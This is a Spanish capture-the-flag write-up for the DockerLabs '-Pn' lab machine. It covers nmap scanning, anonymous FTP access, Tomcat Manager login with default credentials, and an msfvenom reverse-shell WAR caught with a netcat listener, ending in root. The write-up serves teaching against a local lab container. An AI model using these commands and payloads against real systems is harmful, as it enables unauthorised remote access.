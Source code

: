 # [-Pn](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pn.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **21** y **8080**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/44f6d073-52a3-4b3c-9dee-cef94ebe4edc)

<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/530c86d6-efde-4e04-8be6-468d27df3b57)

<br>
<br>


## FTP (Puerto 21)

Una vez ya conozcamos que la versión del ftp es vulnerable al login como `anonymous`, por lo que nos logeamos como este de la siguiente forma `ftp 172.17.0.2` poniendo `anonymous` como login y contraseña, y vemos que tiene un archivo llamado `tomcat.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/24e78158-d66b-49b7-b739-85c760917b1b)
<br>

Nos lo guardamos en nuestra máquina con `get tomcat.txt` por si nos hiciera falta más adelante.

<br>

Vemos el contenido del archivo con `cat tomcat.txt`, y bueno tenemos un posible usuario llamado `tomcat`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cae42bee-ed28-4526-9959-14646212a510)

<br>
<br>


## Página Web (Puerto 8080)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:8080`. Observamos que en dicho servidor web se aloja un `Apache TomCat 9.0.88` .
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/20aee9e5-5540-40ff-9183-d5fd4f7a5523)

<br>

Si echamos un vistazo por la página vemos en el siguiente recuadro amarillo, un link para acceder al `manager webapp`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0643d2b1-75b7-4a83-a1e2-d48b012731eb)

<br>

Si pinchamos nos sale lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95018d56-5ceb-4855-8af6-6f901c543f94)

<br>

Si buscamos en páginas como [Hacktricks](https://book.hacktricks.xyz/v/es), por la credenciales por defecto de Apache Tomcat nos encontraremos con algo parecido a esto:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/730fc856-9dc1-42f6-98f4-ac529d53ef09)

<br>

Probamos las credenciales que aparecen ahí, y las que funcionan son las de `tomcat:s3cr3t`, como bien habiamos encontrado en el fichero (`tomcat.txt`) del servidor ftp, existía un usuario `tomcat`.

<br>

Ahora nos encontramos con el panel de admin de apache, que tiene esta pinta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e4b9ae3f-4d5b-47aa-9482-236d27a64b48)

<br>

Ahora lo que debemos hacer es buscar alguna manera de intentar entrar en la máquina `-Pn`, en la misma página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) donde he encontrado las credenciales por defecto más abajo nos menciona una RCE si tienes acceso al panel de Administrador que es justo lo que hemos conseguido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/47253580-fa7f-4875-94cd-110ba95b69d3)

<br>

Nos dice que tenemos que subir un archivo `.war`, para ello usaremos `msfvenom` como bien nos indica la página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) con el siguiente comando: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war`. <br>
`-p` ⮞ le especificamos el payload a usar <br>
`LHOST` ⮞ nuestra dirección ip <br> 
`LPORT` ⮞ nuestro puerto por el cual nos pondremos en escucha <br>
`-f` ⮞ formato para exportar el payload <br> 
`-o` ⮞ guardar el payload en un archivo 

<br>

Observamos que se nos ha generado el archivo con el cual nos mandaremos una reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9b8d56e1-0948-48ab-aef3-634c4eb15c83)

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, subiremos el archivo `revshell.war` al Panel de Administrador de Tomcat en el apartado que dice `WAR file to deploy`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c3bf91d8-afb9-4d55-9a24-37c3b158f50f)

<br>

Nos dice que se ha subido correctamente, comprobamos que el archivo se encuentra en esta tabla:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/75c1bbf3-54ae-436d-b049-4090c98d4ca4)

<br>

Una vez que le hemos dado click recibiremos la revshell, por el puerto que nos habiamos puesto en escucha
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd9d2610-8a55-4aa1-bf94-4ca85f876aa6)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY, pero si queremos hacer alguna prueba con dicha máquina, debéis aplicar el siguiente tratamiento de la TTY:<br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

No hará falta la escalar privilegios ya que hemos accedido directamente a la máquina víctima `-Pn` como el usuario **root**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/427ecc79-24bd-4386-bc92-afdc4f7dc51e)

 > El (;) concatena dos comandos.
